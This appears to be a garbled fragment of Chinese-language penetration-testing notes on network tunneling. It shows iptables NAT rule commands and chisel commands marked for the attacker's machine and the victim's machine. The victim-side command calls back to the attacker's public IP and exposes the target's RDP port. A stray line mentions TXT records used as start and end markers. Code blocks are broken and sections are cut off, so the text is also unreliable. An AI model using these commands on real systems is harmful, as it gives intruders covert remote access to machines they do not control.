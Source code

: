   

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
查看规则
>iptables -t nat -L
删除规则
>iptables -t nat -D PREROUTING 1
删除全部规则
>iptables -t nat –F

```

  

### chisel

  

```
https://github.com/jpillora/chisel
攻击机执行
>chisel server -p 12138 –reverse

```

  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
靶机执行
>chisel client 公网攻击机IP:12138 R:1234:127.0.0.1:3389

```

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```


  

```
还需创建两个txt记录，分别是指定开始和结束的字符串  

```


```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
